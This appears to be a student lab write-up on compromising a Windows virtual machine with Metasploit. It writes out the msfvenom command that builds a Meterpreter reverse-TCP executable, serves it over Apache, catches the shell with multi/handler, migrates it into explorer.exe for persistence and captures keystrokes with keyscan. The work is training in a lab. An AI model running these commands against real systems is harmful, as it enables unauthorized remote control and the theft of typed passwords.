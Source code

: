# Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:

## ifconfig
192.168.91.247

![ipconfig6(1)](https://github.com/user-attachments/assets/5f670a52-63d9-415c-ab0a-bfa942cd94d0)
Find the attackers ip address using ifconfig

## msfvenom

![msfvenom(1)new](https://github.com/user-attachments/assets/8dd59155-f5e6-473f-8840-292ee5b0e07b)

Create a malicious executable file fun.exe using msfvenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

##  copy the fun.exe into apache/var/www/html/
![systemctl(1)](https://github.com/user-attachments/assets/69eb6758-41e8-4294-b2cb-d9dcd2416175)

copy fun.exe start apache server sudosystemctl apache2 start check the status of apache2

## msfconsole

![msfconsolehelp](https://github.com/user-attachments/assets/23643dfe-ca81-488d-a833-c6450a55610f)

invoke msfconsole Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

## Multihander,setpayload,exploit

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Parrot machine: http://192.168.91.247/

![new1](https://github.com/user-attachments/assets/0bd712a9-76cb-41d6-aceb-1152a6c04d4f)

![catarul](https://github.com/user-attachments/assets/656b11b1-d958-45f9-a4e1-e863e6102036)

![VirtualBox_windows 7_21_04_2025_13_34_08(2)](https://github.com/user-attachments/assets/5d96f50e-0cfa-4127-ba3f-3dd81910f545)

![folderforfunexe](https://github.com/user-attachments/assets/83b175cf-c502-46bc-99a2-06d4854063f1)

![usemulti](https://github.com/user-attachments/assets/bc802e2b-836e-477f-8356-eceb82bb8eef)

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

![ps](https://github.com/user-attachments/assets/42b39d96-52d9-4e5c-bd7a-d23534ee8ee5)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted
![netstat](https://github.com/user-attachments/assets/8a6d9037-074c-4527-9c8c-65b5606abdcb)

## Post Exploitation

The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![keyscan_startanddump](https://github.com/user-attachments/assets/87f5f7b1-8f78-4bb2-ac9f-c88ffcde3f0b)

![output](https://github.com/user-attachments/assets/5cfcb9d5-80bc-4425-8477-f3d2ffc73965)

![keyscan_startanddump](https://github.com/user-attachments/assets/7beac93c-96ea-47f3-a842-e350d57bba12)


## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
